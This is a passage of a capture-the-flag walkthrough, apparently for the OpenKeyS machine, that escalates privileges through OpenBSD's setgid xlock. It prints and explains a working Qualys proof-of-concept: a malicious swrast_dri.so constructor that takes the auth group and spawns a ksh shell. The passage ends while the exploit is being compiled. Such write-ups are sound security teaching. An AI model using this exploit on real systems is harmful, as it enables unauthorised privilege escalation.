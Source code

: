 
    openkeys$ ls -l /usr/X11R6/bin/xlock
    -rwxr-sr-x  1 root  auth  3138520 Oct 12  2019 /usr/X11R6/bin/xlock



It also tries to load a driver named `swrast_dri.so`. So the attack is
basically to drop a malicious library file with a
`static void __attribute__ ((constructor)) _init (void)` function that
will just exec a shell.

#### Shell

The proof of concept in the Qualys paper uses the following:



    #include <paths.h>
    #include <sys/types.h>
    #include <unistd.h>

    static void __attribute__ ((constructor)) _init (void) {
        gid_t rgid, egid, sgid;
        if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
        if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

        char * const argv[] = { _PATH_KSHELL, NULL };
        execve(argv[0], argv, NULL);
        _exit(__LINE__);
    }



This looks confusing at first, but really, it checks that can read the
set-group-id of the current process, then sets the real, effective, and
set-group-id groups to that group (in this case `auth`). Then it sets
`argv` to `[/bin/ksh, 0]`, as `_PATH_KSHELL` is defined in `paths.h`,
which I can find that on OpenKeyS:



    openkeys$ find /usr/ -name paths.h 2>/dev/null
    /usr/src/include/paths.h
    /usr/include/paths.h
    openkeys$ grep KSHELL /usr/include/paths.h     
    #define _PATH_KSHELL    "/bin/ksh"



Then it calls `execve` with that set of args, which replaces the current
process with the new shell.

#### Execute

I'll run with the POC from Qualys, working out of any directory (Qualys
shows `/tmp`, but I'll use `/var/tmp` for variety). First I'll drop the
code for the shell and compile it:



    openkeys$ cat > swrast_dri.c << "EOF"
    > #include <paths.h>   
    > #include <sys/types.h>       
    > #include <unistd.h>                                                                                                                                                                                            
    >          
    > static void __attribute__ ((constructor)) _init (void) {
    >     gid_t rgid, egid, sgid;                   
    >     if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    >     if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
    >                                
    >     char * const argv[] = { _PATH_KSHELL, NULL };
    >     execve(argv[0], argv, NULL);
    >     _exit(__LINE__);                    
    > }                                              